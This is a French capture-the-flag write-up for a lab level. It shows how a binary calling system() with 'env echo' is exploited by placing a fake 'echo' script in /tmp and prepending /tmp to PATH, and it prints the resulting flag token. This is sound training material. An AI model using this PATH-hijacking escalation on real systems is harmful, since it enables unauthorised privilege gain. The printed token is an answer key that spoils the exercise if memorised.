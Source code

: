 # Level 03

Dans le home on peut apercevoir un executable, que lorsqu'on le lance, nous ecrit dans le terminal: `Exploit me`.

La première chose qu'on pense c'est de voir comment est construit cet executable.
Et pour ce faire, on lance gdb avec l'executable comme argument.

Ensuite désassembler l'entry point.

```
$ gdb level03
(gdb) disassemble main
Dump of assembler code for function main:
	...
   0x080484f7 <+83>:	movl   $0x80485e0,(%esp)
   0x080484fe <+90>:	call   0x80483b0 <system@plt>
	...
End of assembler dump.
```

Et la permière chose que l'on voit dans ce main est le call de la fonction system avec comme argument la string à cette position `0x80485e0`

Donc on va regarder cette position:
```
(gdb) x/s 0x80485e0
0x80485e0:	 "/usr/bin/env echo Exploit me"
(gdb)
```
On voit donc que l'argument de system est `"/usr/bin/env echo Exploit me"`. Ce qui nous fait penser qu'on pourrait mettre un faux executable echo.

Pour ce faire on va créer le script/executable, qu'on va mettre dans /tmp/echo, lui donner les bonnes permissions et un path directement sur /tmp

```
$ echo "sh -c getflag" > /tmp/echo
$ chmod 755 /tmp/echo
$ export PATH=/tmp:$PATH
$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
